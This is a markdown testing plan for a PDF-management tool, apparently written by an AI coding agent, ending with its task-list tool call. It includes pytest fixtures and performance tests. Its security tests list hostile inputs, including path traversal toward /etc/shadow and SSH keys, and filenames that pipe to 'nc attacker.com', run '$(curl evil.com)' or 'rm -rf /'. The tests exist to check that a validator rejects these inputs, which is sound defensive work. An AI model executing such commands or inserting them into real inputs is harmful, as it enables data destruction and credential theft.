

# 🧪 Testing Enhancement Plan: Math-PDF Manager

**Date**: 2025-07-15  
**Scope**: Comprehensive testing strategy and coverage improvements  
**Goal**: Achieve 95%+ test coverage with robust, maintainable test suite

---

## 📊 **CURRENT TESTING STATE ANALYSIS**

### **🔍 Existing Test Infrastructure**

#### **Strengths**
- **800+ tests** currently passing
- **Comprehensive filename validation tests** with edge cases
- **Unicode handling tests** for international characters
- **Author name parsing tests** with complex scenarios
- **Integration tests** for core workflows

#### **Gaps Identified**

##### **1. Coverage Gaps (CRITICAL)**
```python
# Missing test coverage areas:
- Publisher authentication flows (IEEE, Springer, SIAM)
- PDF parsing with malformed documents
- Network error handling and retries
- Concurrent processing scenarios
- Memory-intensive operations
- Security edge cases
```

##### **2. Test Organization Issues (HIGH)**
```python
# Current problems:
- Tests scattered across multiple directories
- No clear testing strategy documentation
- Inconsistent test naming conventions
- Missing performance benchmarks
- No load testing infrastructure
```

##### **3. Test Quality Issues (MEDIUM)**
```python
# Quality concerns:
- Some tests are too large and test multiple things
- Mock usage is inconsistent
- Test data is hardcoded and brittle
- Limited property-based testing
- No mutation testing
```

---

## 🎯 **COMPREHENSIVE TESTING STRATEGY**

### **Testing Pyramid Architecture**



### **Phase 1: Test Infrastructure Enhancement (Week 1)**

#### **1.1 Test Organization and Structure**
```
tests/
├── conftest.py                     # Global pytest configuration
├── pytest.ini                     # Pytest settings
├── requirements-test.txt           # Test dependencies
├── fixtures/                      # Test data and fixtures
│   ├── sample_pdfs/              # PDF test files
│   ├── config_samples/           # Configuration examples
│   ├── mock_responses/           # HTTP response mocks
│   └── unicode_samples/          # Unicode test data
├── unit/                          # Unit tests (75% of tests)
│   ├── test_validation/
│   │   ├── test_filename_validator.py
│   │   ├── test_author_validator.py
│   │   ├── test_unicode_validator.py
│   │   └── test_math_context_detector.py
│   ├── test_parsing/
│   │   ├── test_pdf_parser.py
│   │   ├── test_metadata_extractor.py
│   │   └── test_grobid_integration.py
│   ├── test_authentication/
│   │   ├── test_auth_manager.py
│   │   ├── test_credential_store.py
│   │   └── test_session_manager.py
│   └── test_utils/
│       ├── test_security.py
│       ├── test_unicode_utils.py
│       └── test_file_scanner.py
├── integration/                   # Integration tests (20% of tests)
│   ├── test_full_workflows/
│   │   ├── test_validation_workflow.py
│   │   ├── test_download_workflow.py
│   │   └── test_batch_processing.py
│   ├── test_publisher_integration/
│   │   ├── test_ieee_integration.py
│   │   ├── test_springer_integration.py
│   │   └── test_siam_integration.py
│   └── test_cli_integration/
│       ├── test_cli_commands.py
│       └── test_configuration.py
├── e2e/                          # End-to-end tests (5% of tests)
│   ├── test_complete_workflows.py
│   ├── test_user_scenarios.py
│   └── test_system_integration.py
├── performance/                   # Performance tests
│   ├── test_load_testing.py
│   ├── test_memory_usage.py
│   ├── test_concurrent_processing.py
│   └── benchmarks/
│       ├── validation_benchmarks.py
│       └── parsing_benchmarks.py
├── security/                     # Security tests
│   ├── test_input_validation.py
│   ├── test_path_traversal.py
│   ├── test_credential_security.py
│   └── test_network_security.py
└── property_based/               # Property-based tests
    ├── test_filename_properties.py
    ├── test_unicode_properties.py
    └── test_validation_properties.py
```

#### **1.2 Enhanced Test Configuration**
```python
# conftest.py - Enhanced pytest configuration

import pytest
import tempfile
import shutil
from pathlib import Path
from unittest.mock import Mock, MagicMock
from typing import Generator, Dict, Any

from math_pdf_manager.core.models import Author, PDFMetadata, ValidationResult
from math_pdf_manager.validation import FilenameValidator, AuthorValidator
from math_pdf_manager.authentication import AuthManager

# ============================================================================
# FIXTURES - Reusable test components
# ============================================================================

@pytest.fixture(scope="session")
def test_data_dir() -> Path:
    """Provide access to test data directory"""
    return Path(__file__).parent / "fixtures"

@pytest.fixture(scope="session")
def sample_pdfs(test_data_dir) -> Dict[str, Path]:
    """Provide sample PDF files for testing"""
    return {
        "valid_simple": test_data_dir / "sample_pdfs" / "Einstein, A. - Relativity.pdf",
        "valid_complex": test_data_dir / "sample_pdfs" / "Smith, J., Doe, A. - Machine Learning.pdf",
        "invalid_format": test_data_dir / "sample_pdfs" / "invalid_filename.pdf",
        "unicode_content": test_data_dir / "sample_pdfs" / "García, M. - Quantum Mechanics.pdf",
        "large_file": test_data_dir / "sample_pdfs" / "large_paper.pdf"
    }

@pytest.fixture
def temp_directory() -> Generator[Path, None, None]:
    """Provide temporary directory for test operations"""
    temp_dir = Path(tempfile.mkdtemp())
    try:
        yield temp_dir
    finally:
        shutil.rmtree(temp_dir, ignore_errors=True)

@pytest.fixture
def filename_validator() -> FilenameValidator:
    """Provide configured filename validator"""
    return FilenameValidator(strict_mode=False, unicode_normalization="NFC")

@pytest.fixture
def strict_filename_validator() -> FilenameValidator:
    """Provide strict filename validator for rigorous testing"""
    return FilenameValidator(strict_mode=True, unicode_normalization="NFC")

@pytest.fixture
def author_validator() -> AuthorValidator:
    """Provide configured author validator"""
    return AuthorValidator()

@pytest.fixture
def mock_auth_manager() -> Mock:
    """Provide mocked authentication manager"""
    mock = Mock(spec=AuthManager)
    mock.authenticate.return_value = Mock(is_authenticated=True, session_token="test_token")
    mock.get_session.return_value = Mock(headers={"Authorization": "Bearer test_token"})
    return mock

@pytest.fixture
def sample_authors() -> Dict[str, Author]:
    """Provide sample author objects for testing"""
    return {
        "simple": Author(given_name="Albert", family_name="Einstein"),
        "complex": Author(given_name="María José", family_name="García-López"),
        "initials_only": Author(given_name="A.", family_name="Smith"),
        "multiple_initials": Author(given_name="A.B.C.", family_name="Johnson")
    }

@pytest.fixture
def sample_validation_results() -> Dict[str, ValidationResult]:
    """Provide sample validation results"""
    return {
        "valid": ValidationResult(
            is_valid=True,
            issues=[],
            suggested_filename=None,
            metadata=PDFMetadata(title="Test Paper", authors=[]),
            validation_time=0.1,
            confidence_score=0.95
        ),
        "invalid": ValidationResult(
            is_valid=False,
            issues=[],  # Would be populated with actual issues
            suggested_filename="Einstein, A. - Relativity Theory.pdf",
            metadata=None,
            validation_time=0.1,
            confidence_score=0.2
        )
    }

# ============================================================================
# MOCK FIXTURES - External service mocking
# ============================================================================

@pytest.fixture
def mock_http_client():
    """Mock HTTP client for network operations"""
    mock = MagicMock()
    mock.get.return_value.status_code = 200
    mock.get.return_value.content = b"Mock PDF content"
    mock.post.return_value.status_code = 200
    mock.post.return_value.json.return_value = {"success": True}
    return mock

@pytest.fixture
def mock_grobid_server():
    """Mock Grobid server responses"""
    mock = MagicMock()
    mock.process_fulltext_document.return_value = {
        "title": "Mock Paper Title",
        "authors": [{"given_name": "John", "family_name": "Doe"}],
        "abstract": "Mock abstract"
    }
    return mock

@pytest.fixture
def mock_publisher_responses():
    """Mock publisher API responses"""
    return {
        "ieee": {
            "auth_success": {"status": "authenticated", "token": "ieee_token"},
            "paper_metadata": {
                "title": "IEEE Paper Title",
                "authors": ["J. Smith", "A. Doe"],
                "doi": "10.1109/example.2023"
            }
        },
        "springer": {
            "auth_success": {"session_id": "springer_session"},
            "paper_metadata": {
                "title": "Springer Paper Title",
                "authors": ["M. Johnson"],
                "doi": "10.1007/example"
            }
        }
    }

# ============================================================================
# PERFORMANCE FIXTURES
# ============================================================================

@pytest.fixture
def performance_test_files(temp_directory) -> List[Path]:
    """Generate test files for performance testing"""
    files = []
    for i in range(100):
        filename = f"Author{i:03d}, A. - Test Paper {i:03d}.pdf"
        file_path = temp_directory / filename
        file_path.write_text(f"Mock PDF content for paper {i}")
        files.append(file_path)
    return files

@pytest.fixture
def memory_monitor():
    """Monitor memory usage during tests"""
    import psutil
    import os
    
    process = psutil.Process(os.getpid())
    initial_memory = process.memory_info().rss
    
    class MemoryMonitor:
        def get_usage(self):
            current = process.memory_info().rss
            return current - initial_memory
        
        def assert_under_limit(self, limit_mb: int):
            usage_mb = self.get_usage() / (1024 * 1024)
            assert usage_mb < limit_mb, f"Memory usage {usage_mb:.1f}MB exceeds limit {limit_mb}MB"
    
    return MemoryMonitor()

# ============================================================================
# PYTEST CONFIGURATION
# ============================================================================

def pytest_configure(config):
    """Configure pytest with custom markers"""
    config.addinivalue_line("markers", "slow: marks tests as slow (deselect with '-m \"not slow\"')")
    config.addinivalue_line("markers", "integration: marks tests as integration tests")
    config.addinivalue_line("markers", "e2e: marks tests as end-to-end tests")
    config.addinivalue_line("markers", "performance: marks tests as performance tests")
    config.addinivalue_line("markers", "security: marks tests as security tests")
    config.addinivalue_line("markers", "network: marks tests that require network access")

def pytest_collection_modifyitems(config, items):
    """Automatically mark tests based on their location"""
    for item in items:
        # Add markers based on test file location
        if "integration" in str(item.fspath):
            item.add_marker(pytest.mark.integration)
        elif "e2e" in str(item.fspath):
            item.add_marker(pytest.mark.e2e)
        elif "performance" in str(item.fspath):
            item.add_marker(pytest.mark.performance)
        elif "security" in str(item.fspath):
            item.add_marker(pytest.mark.security)
        
        # Mark slow tests
        if "test_large" in item.name or "test_batch" in item.name:
            item.add_marker(pytest.mark.slow)
```

#### **1.3 Enhanced Test Configuration Files**
```ini
# pytest.ini
[tool:pytest]
minversion = 7.0
addopts = 
    --strict-markers
    --strict-config
    --verbose
    --tb=short
    --cov=src/math_pdf_manager
    --cov-report=html:htmlcov
    --cov-report=xml:coverage.xml
    --cov-report=term-missing
    --cov-fail-under=90
    --junitxml=junit.xml
    
testpaths = tests
python_files = test_*.py
python_classes = Test*
python_functions = test_*

markers =
    slow: marks tests as slow (deselect with '-m "not slow"')
    integration: marks tests as integration tests
    e2e: marks tests as end-to-end tests
    performance: marks tests as performance tests  
    security: marks tests as security tests
    network: marks tests that require network access
    
filterwarnings =
    ignore::DeprecationWarning
    ignore::PendingDeprecationWarning
    
# Timeout for tests (in seconds)
timeout = 300
timeout_method = thread
```

### **Phase 2: Advanced Testing Patterns (Week 2)**

#### **2.1 Property-Based Testing**
```python
# tests/property_based/test_filename_properties.py

import hypothesis
from hypothesis import strategies as st
from hypothesis import given, assume, example
from string import ascii_letters, digits
import unicodedata

from math_pdf_manager.validation import FilenameValidator

class TestFilenameProperties:
    """Property-based tests for filename validation"""
    
    @given(
        given_name=st.text(
            alphabet=ascii_letters + ".- ", 
            min_size=1, 
            max_size=20
        ).filter(lambda x: x.strip()),
        family_name=st.text(
            alphabet=ascii_letters + ".- ", 
            min_size=1, 
            max_size=30
        ).filter(lambda x: x.strip()),
        title=st.text(
            alphabet=ascii_letters + digits + " .-:()[]", 
            min_size=5, 
            max_size=100
        ).filter(lambda x: x.strip())
    )
    def test_valid_filename_format_always_validates(self, given_name, family_name, title):
        """Property: Well-formed filenames should always validate"""
        # Clean inputs
        given_name = given_name.strip()
        family_name = family_name.strip()
        title = title.strip()
        
        # Skip empty strings
        assume(given_name and family_name and title)
        
        # Construct filename in expected format
        filename = f"{family_name}, {given_name} - {title}.pdf"
        
        validator = FilenameValidator(strict_mode=False)
        result = validator.validate_filename(filename)
        
        assert result.is_valid, f"Well-formed filename should validate: {filename}"
        assert result.confidence_score > 0.8, f"Confidence should be high for well-formed filename"
    
    @given(
        text=st.text(
            min_size=1, 
            max_size=200
        ).filter(lambda x: ".pdf" not in x.lower())
    )
    def test_non_pdf_files_rejected(self, text):
        """Property: Non-PDF files should be rejected"""
        assume(text.strip())
        
        # Ensure it doesn't accidentally end with .pdf
        if text.lower().endswith('.pdf'):
            text = text[:-4]
        
        validator = FilenameValidator()
        result = validator.validate_filename(text)
        
        # Should be invalid due to missing .pdf extension
        assert not result.is_valid, f"Non-PDF filename should be invalid: {text}"
    
    @given(
        unicode_text=st.text(
            alphabet=st.characters(
                whitelist_categories=('Lu', 'Ll', 'Lt', 'Lm', 'Lo', 'Nd', 'Pc', 'Pd', 'Ps', 'Pe', 'Po'),
                max_codepoint=0x1F000  # Exclude some high Unicode ranges
            ),
            min_size=1,
            max_size=50
        )
    )
    def test_unicode_normalization_idempotent(self, unicode_text):
        """Property: Unicode normalization should be idempotent"""
        assume(unicode_text.strip())
        
        validator = FilenameValidator()
        
        # Normalize twice
        first_norm = validator._normalize_unicode(unicode_text)
        second_norm = validator._normalize_unicode(first_norm)
        
        assert first_norm == second_norm, "Unicode normalization should be idempotent"
    
    @given(
        filename=st.text(min_size=1, max_size=255)
    )
    def test_validation_always_returns_result(self, filename):
        """Property: Validation should never crash, always return a result"""
        validator = FilenameValidator()
        
        try:
            result = validator.validate_filename(filename)
            
            # Result should always have required attributes
            assert hasattr(result, 'is_valid')
            assert hasattr(result, 'issues')
            assert hasattr(result, 'confidence_score')
            assert isinstance(result.is_valid, bool)
            assert isinstance(result.issues, list)
            assert 0.0 <= result.confidence_score <= 1.0
            
        except Exception as e:
            pytest.fail(f"Validation should never crash: {e}")
    
    @given(
        valid_filename=st.builds(
            lambda a, f, t: f"{f}, {a} - {t}.pdf",
            a=st.text(alphabet=ascii_letters, min_size=1, max_size=10),
            f=st.text(alphabet=ascii_letters, min_size=1, max_size=15),
            t=st.text(alphabet=ascii_letters + " ", min_size=5, max_size=30)
        )
    )
    def test_validation_performance_bound(self, valid_filename):
        """Property: Validation should complete within reasonable time"""
        import time
        
        validator = FilenameValidator()
        
        start_time = time.time()
        result = validator.validate_filename(valid_filename)
        end_time = time.time()
        
        validation_time = end_time - start_time
        assert validation_time < 1.0, f"Validation took too long: {validation_time:.3f}s"
        assert result.validation_time < 1.0, "Reported validation time should be reasonable"

# Strategy for generating realistic academic filenames
academic_filename_strategy = st.builds(
    lambda author, title: f"{author} - {title}.pdf",
    author=st.one_of([
        # Single author with initial
        st.builds(lambda f, i: f"{f}, {i}.", 
                 f=st.text(alphabet=ascii_letters, min_size=2, max_size=15),
                 i=st.text(alphabet=ascii_letters, min_size=1, max_size=1)),
        # Multiple authors
        st.builds(lambda f1, i1, f2, i2: f"{f1}, {i1}., {f2}, {i2}.",
                 f1=st.text(alphabet=ascii_letters, min_size=2, max_size=10),
                 i1=st.text(alphabet=ascii_letters, min_size=1, max_size=1),
                 f2=st.text(alphabet=ascii_letters, min_size=2, max_size=10),
                 i2=st.text(alphabet=ascii_letters, min_size=1, max_size=1))
    ]),
    title=st.text(
        alphabet=ascii_letters + digits + " :-()[]",
        min_size=10,
        max_size=80
    ).filter(lambda x: x.strip())
)

class TestAcademicFilenameProperties:
    """Property-based tests using realistic academic filename patterns"""
    
    @given(filename=academic_filename_strategy)
    def test_academic_filenames_validate_correctly(self, filename):
        """Property: Properly formatted academic filenames should validate"""
        validator = FilenameValidator()
        result = validator.validate_filename(filename)
        
        # Should be valid or have only minor issues
        if not result.is_valid:
            # Allow some minor issues but check they're reasonable
            serious_issues = [
                issue for issue in result.issues 
                if issue.severity in ['error', 'critical']
            ]
            assert len(serious_issues) == 0, f"Academic filename has serious issues: {serious_issues}"
```

#### **2.2 Performance Testing Framework**
```python
# tests/performance/test_load_testing.py

import pytest
import time
import asyncio
import statistics
from pathlib import Path
from typing import List, Dict, Any
from concurrent.futures import ThreadPoolExecutor, as_completed

from math_pdf_manager.validation import FilenameValidator
from math_pdf_manager.parsing import PDFParser

class PerformanceBenchmark:
    """Performance benchmarking utilities"""
    
    def __init__(self):
        self.results = []
    
    def measure_time(self, func, *args, **kwargs):
        """Measure execution time of a function"""
        start = time.perf_counter()
        result = func(*args, **kwargs)
        end = time.perf_counter()
        duration = end - start
        
        self.results.append({
            'function': func.__name__,
            'duration': duration,
            'args_count': len(args),
            'kwargs_count': len(kwargs)
        })
        
        return result, duration
    
    def get_statistics(self) -> Dict[str, float]:
        """Get performance statistics"""
        if not self.results:
            return {}
        
        durations = [r['duration'] for r in self.results]
        return {
            'count': len(durations),
            'total_time': sum(durations),
            'mean_time': statistics.mean(durations),
            'median_time': statistics.median(durations),
            'min_time': min(durations),
            'max_time': max(durations),
            'std_dev': statistics.stdev(durations) if len(durations) > 1 else 0
        }

@pytest.mark.performance
class TestValidationPerformance:
    """Performance tests for validation operations"""
    
    def test_single_file_validation_performance(self, sample_pdfs, memory_monitor):
        """Test performance of single file validation"""
        validator = FilenameValidator()
        benchmark = PerformanceBenchmark()
        
        # Test with different file types
        for file_type, file_path in sample_pdfs.items():
            result, duration = benchmark.measure_time(
                validator.validate_filename, 
                file_path.name
            )
            
            # Performance assertions
            assert duration < 0.1, f"Single file validation took too long: {duration:.3f}s"
            
        # Memory usage should be reasonable
        memory_monitor.assert_under_limit(50)  # 50MB limit
        
        stats = benchmark.get_statistics()
        print(f"Single file validation stats: {stats}")
    
    def test_batch_validation_performance(self, performance_test_files, memory_monitor):
        """Test performance of batch validation"""
        validator = FilenameValidator()
        benchmark = PerformanceBenchmark()
        
        # Test batch validation
        filenames = [f.name for f in performance_test_files]
        
        result, duration = benchmark.measure_time(
            lambda files: [validator.validate_filename(f) for f in files],
            filenames
        )
        
        # Performance requirements
        files_per_second = len(filenames) / duration
        assert files_per_second > 50, f"Batch validation too slow: {files_per_second:.1f} files/sec"
        assert duration < 5.0, f"Batch validation took too long: {duration:.3f}s"
        
        # Memory should be reasonable for 100 files
        memory_monitor.assert_under_limit(100)
        
        print(f"Batch validation: {len(filenames)} files in {duration:.3f}s ({files_per_second:.1f} files/sec)")
    
    async def test_concurrent_validation_performance(self, performance_test_files):
        """Test performance of concurrent validation"""
        validator = FilenameValidator()
        filenames = [f.name for f in performance_test_files]
        
        start_time = time.perf_counter()
        
        # Use asyncio for concurrency
        async def validate_file(filename):
            return validator.validate_filename(filename)
        
        tasks = [validate_file(filename) for filename in filenames]
        results = await asyncio.gather(*tasks)
        
        end_time = time.perf_counter()
        duration = end_time - start_time
        
        # Concurrent processing should be faster than sequential
        files_per_second = len(filenames) / duration
        assert files_per_second > 100, f"Concurrent validation too slow: {files_per_second:.1f} files/sec"
        
        # All files should be processed
        assert len(results) == len(filenames)
        
        print(f"Concurrent validation: {len(filenames)} files in {duration:.3f}s ({files_per_second:.1f} files/sec)")
    
    @pytest.mark.slow
    def test_large_scale_performance(self, temp_directory, memory_monitor):
        """Test performance with large number of files"""
        # Generate 1000 test files
        large_file_count = 1000
        filenames = []
        
        for i in range(large_file_count):
            filename = f"Author{i:04d}, A.B. - Test Paper Number {i:04d}.pdf"
            filenames.append(filename)
        
        validator = FilenameValidator()
        
        start_time = time.perf_counter()
        results = [validator.validate_filename(filename) for filename in filenames]
        end_time = time.perf_counter()
        
        duration = end_time - start_time
        files_per_second = len(filenames) / duration
        
        # Performance requirements for large scale
        assert files_per_second > 200, f"Large scale validation too slow: {files_per_second:.1f} files/sec"
        assert duration < 10.0, f"Large scale validation took too long: {duration:.3f}s"
        
        # Memory usage should remain reasonable
        memory_monitor.assert_under_limit(200)  # 200MB limit for 1000 files
        
        # Check success rate
        valid_count = sum(1 for r in results if r.is_valid)
        success_rate = valid_count / len(results)
        assert success_rate > 0.95, f"Success rate too low: {success_rate:.1%}"
        
        print(f"Large scale: {len(filenames)} files in {duration:.3f}s ({files_per_second:.1f} files/sec)")

@pytest.mark.performance
class TestMemoryUsage:
    """Memory usage and leak detection tests"""
    
    def test_validation_memory_usage(self, performance_test_files, memory_monitor):
        """Test memory usage of validation operations"""
        validator = FilenameValidator()
        
        initial_usage = memory_monitor.get_usage()
        
        # Process files multiple times to detect leaks
        for round_num in range(5):
            for file_path in performance_test_files:
                result = validator.validate_filename(file_path.name)
                assert result is not None
            
            # Check memory after each round
            current_usage = memory_monitor.get_usage()
            usage_mb = current_usage / (1024 * 1024)
            
            print(f"Round {round_num + 1}: Memory usage: {usage_mb:.1f}MB")
            
            # Memory should not grow significantly between rounds
            if round_num > 0:
                assert usage_mb < 100, f"Memory usage too high: {usage_mb:.1f}MB"
    
    def test_cache_memory_efficiency(self, memory_monitor):
        """Test that caching doesn't cause excessive memory usage"""
        validator = FilenameValidator()
        
        # Create many similar filenames to test cache efficiency
        test_filenames = []
        for i in range(500):
            filename = f"Author{i % 10:02d}, A. - Paper {i}.pdf"  # Limited variation for cache testing
            test_filenames.append(filename)
        
        initial_usage = memory_monitor.get_usage()
        
        # Process all files
        results = [validator.validate_filename(f) for f in test_filenames]
        
        final_usage = memory_monitor.get_usage()
        usage_increase = (final_usage - initial_usage) / (1024 * 1024)
        
        # Memory increase should be reasonable
        assert usage_increase < 50, f"Cache memory usage too high: {usage_increase:.1f}MB"
        assert len(results) == len(test_filenames)
        
        print(f"Cache test: {len(test_filenames)} files, memory increase: {usage_increase:.1f}MB")
```

#### **2.3 Security Testing Framework**
```python
# tests/security/test_input_validation.py

import pytest
import tempfile
from pathlib import Path
from unittest.mock import patch, mock_open

from math_pdf_manager.validation import FilenameValidator
from math_pdf_manager.utils.security import PathValidator
from math_pdf_manager.authentication import CredentialStore

@pytest.mark.security
class TestInputValidationSecurity:
    """Security tests for input validation"""
    
    def test_path_traversal_prevention(self):
        """Test prevention of path traversal attacks"""
        malicious_paths = [
            "../../../etc/passwd",
            "..\\..\\..\\windows\\system32\\config\\sam",
            "/etc/shadow",
            "C:\\Windows\\System32\\config\\SAM",
            "../../../../root/.ssh/id_rsa",
            "..%2F..%2F..%2Fetc%2Fpasswd",  # URL encoded
            "....//....//....//etc/passwd",  # Double dot
            "..\\..\\..\\..\\..\\..\\..\\..\\..\\.\\windows\\win.ini"
        ]
        
        path_validator = PathValidator()
        
        for malicious_path in malicious_paths:
            with pytest.raises(ValueError, match="Path traversal"):
                path_validator.validate_path(malicious_path, "/safe/base/path")
    
    def test_filename_injection_prevention(self):
        """Test prevention of filename injection attacks"""
        malicious_filenames = [
            "normal.pdf; rm -rf /",
            "normal.pdf && cat /etc/passwd",
            "normal.pdf | nc attacker.com 4444",
            "normal.pdf`whoami`",
            "normal.pdf$(curl evil.com)",
            "normal.pdf\x00hidden_content",  # Null byte injection
            "normal.pdf\r\nX-Injected-Header: malicious",  # Header injection
            "normal.pdf<script>alert('xss')</script>",  # XSS attempt
        ]
        
        validator = FilenameValidator()
        
        for malicious_filename in malicious_filenames:
            result = validator.validate_filename(malicious_filename)
            
            # Should detect security issues
            security_issues = [
                issue for issue in result.issues 
                if 'security' in issue.message.lower() or 'injection' in issue.message.lower()
            ]
            
            # Either invalid or has security warnings
            assert not result.is_valid or security_issues, \
                f"Failed to detect security issue in: {malicious_filename}"
    
    def test_unicode_security_normalization(self):
        """Test Unicode security normalization"""
        # Unicode normalization attacks
        unicode_attacks = [
            "café.pdf",  # é as single character
            "cafe\u0301.pdf",  # é as e + combining acute accent
            "СՕfе.pdf",  # Cyrillic and Armenian characters that look like Latin
            "раусort.pdf",  # Cyrillic characters that look like 'passport'
            "admin\u202Eexe.pdf",  # Right-to-left override
            "\u2028filename.pdf",  # Line separator
            "\u2029filename.pdf",  # Paragraph separator
        ]
        
        validator = FilenameValidator(unicode_normalization="NFC")
        
        for unicode_filename in unicode_attacks:
            result = validator.validate_filename(unicode_filename)
            
            # Should normalize or detect issues
            if result.suggested_filename:
                # Check that normalization occurred
                assert result.suggested_filename != unicode_filename, \
                    f"Unicode normalization should change: {unicode_filename}"
    
    def test_dos_prevention_large_input(self):
        """Test prevention of denial-of-service via large inputs"""
        # Create very large filename
        large_filename = "A" * 10000 + ".pdf"
        
        validator = FilenameValidator()
        
        import time
        start_time = time.time()
        result = validator.validate_filename(large_filename)
        end_time = time.time()
        
        # Should not take excessive time
        processing_time = end_time - start_time
        assert processing_time < 1.0, f"Large input processing took too long: {processing_time:.3f}s"
        
        # Should be invalid due to excessive length
        assert not result.is_valid, "Excessively long filename should be invalid"
    
    def test_dos_prevention_deep_recursion(self):
        """Test prevention of stack overflow attacks"""
        # Create filename with many nested parentheses or similar structures
        deeply_nested = "(" * 1000 + "filename" + ")" * 1000 + ".pdf"
        
        validator = FilenameValidator()
        
        try:
            result = validator.validate_filename(deeply_nested)
            # Should not crash with RecursionError
            assert isinstance(result.is_valid, bool)
        except RecursionError:
            pytest.fail("Validator should not crash with RecursionError on deeply nested input")

@pytest.mark.security
class TestCredentialSecurity:
    """Security tests for credential management"""
    
    def test_credential_encryption_at_rest(self, temp_directory):
        """Test that credentials are encrypted when stored"""
        credential_store = CredentialStore(app_name="test_app")
        credential_store.config_dir = temp_directory
        
        # Store a credential
        service = "test_service"
        username = "test_user"
        password = "secret_password"
        
        credential_store.store_credential(service, username, password)
        
        # Check that password is not stored in plaintext
        config_files = list(temp_directory.glob("*.enc"))
        
        for config_file in config_files:
            content = config_file.read_text()
            assert password not in content, "Password should not be stored in plaintext"
            assert "secret" not in content.lower(), "Sensitive data should not be in plaintext"
    
    def test_credential_file_permissions(self, temp_directory):
        """Test that credential files have appropriate permissions"""
        credential_store = CredentialStore(app_name="test_app")
        credential_store.config_dir = temp_directory
        
        # Store a credential
        credential_store.store_credential("test", "user", "pass")
        
        # Check file permissions
        config_files = list(temp_directory.glob("*.enc"))
        
        for config_file in config_files:
            # On Unix systems, check that file is only readable by owner
            import os
            import stat
            
            file_stat = config_file.stat()
            file_mode = stat.filemode(file_stat.st_mode)
            
            # Should not be readable by group or others
            assert not (file_stat.st_mode & stat.S_IRGRP), "Credential file should not be readable by group"
            assert not (file_stat.st_mode & stat.S_IROTH), "Credential file should not be readable by others"
    
    def test_memory_cleanup_after_use(self):
        """Test that sensitive data is cleared from memory after use"""
        # This is a challenging test - we can't easily verify memory cleanup
        # But we can test that sensitive data isn't accidentally logged or exposed
        
        import logging
        import io
        
        # Capture log output
        log_capture = io.StringIO()
        handler = logging.StreamHandler(log_capture)
        logger = logging.getLogger('math_pdf_manager')
        logger.addHandler(handler)
        logger.setLevel(logging.DEBUG)
        
        try:
            credential_store = CredentialStore(app_name="test_app")
            credential_store.store_credential("test", "user", "secret_password")
            retrieved = credential_store.get_credential("test", "user")
            
            # Check that sensitive data is not in logs
            log_output = log_capture.getvalue()
            assert "secret_password" not in log_output, "Password should not appear in logs"
            assert retrieved is not None, "Should be able to retrieve stored credential"
            
        finally:
            logger.removeHandler(handler)

@pytest.mark.security  
class TestNetworkSecurity:
    """Security tests for network operations"""
    
    @patch('requests.Session.get')
    def test_ssl_verification_enforced(self, mock_get):
        """Test that SSL verification is enforced for HTTPS requests"""
        from math_pdf_manager.infrastructure.network import AsyncHTTPClient
        
        client = AsyncHTTPClient()
        
        # Attempt to make request
        client.get("https://example.com/test")
        
        # Verify SSL verification was not disabled
        mock_get.assert_called_once()
        call_kwargs = mock_get.call_args[1]
        
        # Should not disable SSL verification
        assert call_kwargs.get('verify', True) is not False, "SSL verification should not be disabled"
    
    def test_request_timeout_enforcement(self):
        """Test that network requests have reasonable timeouts"""
        from math_pdf_manager.infrastructure.network import AsyncHTTPClient
        
        client = AsyncHTTPClient()
        
        # Check that default timeout is set
        assert hasattr(client, 'timeout'), "HTTP client should have timeout configured"
        assert client.timeout > 0, "Timeout should be positive"
        assert client.timeout < 300, "Timeout should not be excessive"
    
    @patch('requests.Session.post')
    def test_sensitive_data_not_in_logs(self, mock_post, caplog):
        """Test that sensitive data doesn't appear in network logs"""
        from math_pdf_manager.authentication import AuthManager
        
        # Mock successful authentication
        mock_post.return_value.status_code = 200
        mock_post.return_value.json.return_value = {"token": "secret_token"}
        
        auth_manager = AuthManager()
        
        # Attempt authentication with sensitive data
        with caplog.at_level(logging.DEBUG):
            # This should trigger network logging
            result = auth_manager.authenticate("test_service", {
                "username": "test_user",
                "password": "secret_password",
                "api_key": "secret_api_key"
            })
        
        # Check that sensitive data is not in logs
        log_output = caplog.text
        assert "secret_password" not in log_output, "Password should not appear in logs"
        assert "secret_api_key" not in log_output, "API key should not appear in logs"
        assert "secret_token" not in log_output, "Token should not appear in logs"
```

<function_calls>
<invoke name="TodoWrite">
<parameter name="todos">[{"id": "1", "content": "Analyze current codebase structure and identify reorganization opportunities", "status": "completed", "priority": "high"}, {"id": "2", "content": "Create comprehensive refactoring plan with priorities", "status": "completed", "priority": "high"}, {"id": "3", "content": "Identify performance optimization opportunities", "status": "completed", "priority": "medium"}, {"id": "4", "content": "Plan code cleanup and dead code removal", "status": "completed", "priority": "medium"}, {"id": "5", "content": "Design comprehensive documentation strategy", "status": "completed", "priority": "high"}, {"id": "6", "content": "Plan testing improvements and coverage enhancements", "status": "completed", "priority": "medium"}, {"id": "7", "content": "Identify security enhancements and best practices", "status": "in_progress", "priority": "medium"}, {"id": "8", "content": "Create developer experience improvements plan", "status": "pending", "priority": "medium"}]